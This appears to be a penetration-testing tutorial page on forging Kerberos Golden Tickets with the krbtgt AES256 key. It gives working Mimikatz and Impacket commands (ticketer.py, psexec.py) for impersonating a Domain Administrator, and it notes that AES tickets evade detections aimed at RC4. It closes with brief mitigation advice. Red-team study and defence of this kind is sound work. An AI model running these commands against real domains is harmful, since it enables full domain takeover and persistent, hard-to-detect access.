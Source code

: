 ```yaml
---
title: "Golden Ticket"
sidebar_position: 2
---
```


You've dumped the `krbtgt` account credentials from a Domain Controller. You have its NTLM hash, but in a modern, secure Active Directory environment, that's only half the story. The true power lies in the stronger cryptographic keys derived from that password: the **AES keys**.

A **Golden Ticket** attack is the creation of a forged Kerberos Ticket-Granting Ticket (TGT). By forging it with the `krbtgt` account's secret keys, you can grant yourself administrative access to any resource, as any user, for as long as you desire. While the NTLM hash works for older encryption, using the AES key is the modern, preferred method that ensures your ticket is accepted in a hardened environment.

Think of it like this: The NTLM hash is the master key to the kingdom's old iron locks. The AES key is the master key for the new, high-security digital locks. To guarantee entry everywhere, you need the key for the modern locks.

---

## The "Why": Upgrading from NTLM to AES Keys

The `krbtgt` account's password hash is used to sign all Kerberos tickets. In older domains, this was done using the RC4-HMAC algorithm, which is based on the NTLM hash.

However, starting with Windows Server 2008, Active Directory introduced support for stronger **AES-256 and AES-128 encryption** for Kerberos. In any reasonably modern domain, the Domain Controllers will use and prefer tickets signed with these AES keys.

If you create a Golden Ticket signed only with the NTLM hash (RC4) and try to use it in an environment that expects AES, your request will likely be rejected. Therefore, a modern attacker **must use the `krbtgt` AES key** to create a fully-functional Golden Ticket.

---

## The Heist: Forging with Modern Cryptography

The prerequisites are the same, but your most important ingredient is now the **`krbtgt` AES256 key**, which you get when you dump the account's secrets.

1.  **The Domain Name:** e.g., `corp.local`
2.  **The Domain SID:** The Security Identifier of the domain.
3.  **The Target User:** The user you want to impersonate (usually `Administrator`).
4.  **The `krbtgt` AES256 Key:** The modern secret sauce.

Tools like `impacket-secretsdump` or `Mimikatz` will dump these keys for you right alongside the NTLM hash.

### **Using Mimikatz**

The command is nearly identical to before, but instead of `/krbtgt` (for the NTLM hash), you use `/aes256`.

```powershell
mimikatz # kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-12345-67890-1234 /aes256:c899b82192534578160b3341434237a8549d532342342342342342342234 /ptt
```

* **/aes256:** You provide the AES256 key for the `krbtgt` account. This is now the preferred flag over `/krbtgt`.
* **/ptt:** "Pass the Ticket" immediately injects the newly forged, AES-strong ticket into your current session.

Your command prompt now operates with the full authority of a Domain Admin, and your Kerberos tickets will be cryptographically modern and accepted everywhere in the domain.

### **Using Impacket (`ticketer.py`)**

Similarly, with Impacket, you simply swap the hash flag for the key flag.

```bash
# 1. Create the ticket file using the AES key
ticketer.py -aesKey c899b82192534578160b3341434237a8549d532342342342342342342234 -domain-sid <SID> -domain <domain> Administrator

# 2. Set the KRB5CCNAME environment variable to point to the ticket
export KRB5CCNAME=Administrator.ccache

# 3. Use other tools like psexec.py, which will automatically use the ticket
psexec.py -k -no-pass -dc-ip <DC_IP> <domain>/Administrator

```

## How It Fits into Your Strategy: Modern Persistence

Using the AES key doesn't change the strategy; it perfects it.

 - **It's The Standard**: In any pentest against a post-2008 domain, using the AES key should be your default method for forging Golden Tickets.

 - **Bypasses Some Detections**: Security tools monitoring for weak RC4 Kerberos tickets (a common sign of an older-style Golden Ticket attack) will be bypassed when you use a ticket signed with AES.

 - **Guaranteed Access**: It ensures your ticket will be accepted by modern, patched Domain Controllers and services.

 ---

 ## Mitigation: The Defense is the Same

The good news for defenders is that the mitigation strategy doesn't change. Because the AES keys are derived directly from the `krbtgt` account's password, the same defense applies:

1. **Reset the `krbtgt` Account Password TWICE**. Resetting the password changes the underlying secret from which both the NTLM hash and the AES keys are generated. Doing it twice ensures that all old keys and tickets are invalidated throughout the domain's replication cycle.

2. **Protect Your Domain Controllers**. The best defense is to prevent an attacker from being able to dump the krbtgt secrets in the first place.

